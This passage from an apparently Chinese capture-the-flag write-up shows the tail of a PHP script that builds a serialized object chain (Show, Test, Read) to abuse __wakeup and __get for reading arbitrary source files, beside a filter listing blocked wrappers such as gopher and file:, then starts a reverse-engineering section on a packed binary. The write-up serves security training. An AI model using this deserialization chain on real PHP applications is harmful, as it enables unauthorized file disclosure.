 ```php
        } else {
            highlight_file($this->source);
        }
        
    }

    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params = array();
    }

    public function __get($key)
    {
        $func = $this->params;
        return $func();
    }  
}

$show = new Show();
$test = new Test();
$read = new Read();

$test->params = $read;
$show->str['str'] = $test;
$show->source = $show;
var_dump(urlencode(serialize($show)));

?>
```

## REVERSE

### Md5Jungle 0x01

拿到一个逆向题，无论如何第一想法就是去查壳，果不其然根据就是ASP壳

![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/CTF%E2%80%94%E2%80%94WriteUP/%E7%99%BE%E8%B6%8A%E6%9D%AF2019/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE(71).png)

